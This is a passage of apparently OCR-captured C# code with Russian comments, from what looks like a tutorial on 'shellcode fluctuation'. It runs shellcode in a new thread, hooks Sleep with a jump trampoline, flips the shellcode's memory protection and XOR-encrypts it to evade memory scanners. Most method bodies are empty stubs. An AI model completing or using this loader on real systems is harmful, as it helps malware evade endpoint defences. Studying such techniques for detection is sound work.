 ```cs

            // Начинаем исполнение шеллкода созданием нового потока
            var hThread = Win32.CreateThread(IntPtr.Zero, 0, shellcodeAddress, IntPtr.Zero, 0, IntPtr.Zero);
            Win32.WaitForSingleObject(hThread, 0xFFFFFFFF);

            // Снимаем хук
            fs.DisableHook();
        }
    }

    class FluctuateShellcode
    {
        delegate void Sleep(uint dwMilliseconds);
        readonly Sleep sleepOrig;
        readonly GCHandle gchSleepDetour;

        readonly IntPtr sleepOriginAddress, sleepDetourAddress;
        readonly byte[] sleepOriginBytes = new byte[16], sleepDetourBytes;

        readonly byte[] trampoline =
        {
            0x49, 0xBA, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // mov r10, addr
            0x41, 0xFF, 0xE2                                            // jmp r10
        };

        readonly IntPtr shellcodeAddress;
        readonly int shellcodeLength;
        readonly byte[] xorKey;

        public FluctuateShellcode(IntPtr shellcodeAddr, int shellcodeLen)
        { }

        ~FluctuateShellcode()
        { }

        // Наш переопределнный Sleep
        void SleepDetour(uint dwMilliseconds)
        { }

        // Установка хука
        public bool EnableHook()
        { }

        // Снятие хука
        public bool DisableHook()
        { }

        // Функция, отвечающая за флипы памяти на RW / NA
        void ProtectMemory(uint newProtect)
        { }

        // Обфуская памяти шеллкода простым XOR-шифрованием
        void XorMemory()
        { }

        // Генерация ключа для XOR-шифрования
        byte[] GenerateXorKey()
        { }
    }

    // Необходимый набор Win32 API
    class Win32
```

[//]: # (2022-06-17)